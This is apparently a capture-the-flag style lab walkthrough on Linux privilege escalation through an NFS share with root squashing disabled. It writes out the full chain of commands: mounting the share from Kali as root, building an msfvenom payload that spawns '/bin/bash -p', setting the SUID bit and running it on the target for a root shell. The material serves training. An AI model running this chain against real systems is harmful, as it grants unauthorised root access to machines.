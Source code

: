 > __Remember to exit out of the root shell before continuing!__

---

* Answer the questions below
* Read and follow along with the above.

```No answer needed```


## Task 19: NFS

* Files created via __NFS__ inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

* Check the NFS share configuration on the Debian VM:

```bash
cat /etc/exports
```

> Note that the /tmp share has root squashing disabled.

* On your Kali box, switch to your root user if you are not already running as root:

```bash
sudo su
```

* Using Kali's root user, create a mount point on your Kali box and mount the __/tmp__ share (update the IP accordingly):

```bash
mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
```

* Still using Kali's root user, generate a payload using __msfvenom__ and save it to the mounted share (this payload simply calls /bin/bash):

```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

* Still using Kali's root user, make the file executable and set the SUID permission:

```bash
chmod +xs /tmp/nfs/shell.elf
```

* Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:

```
/tmp/shell.elf
```

> __Remember to exit out of the root shell before continuing!__

---

* Answer the questions below
* What is the name of the option that disables root squashing?
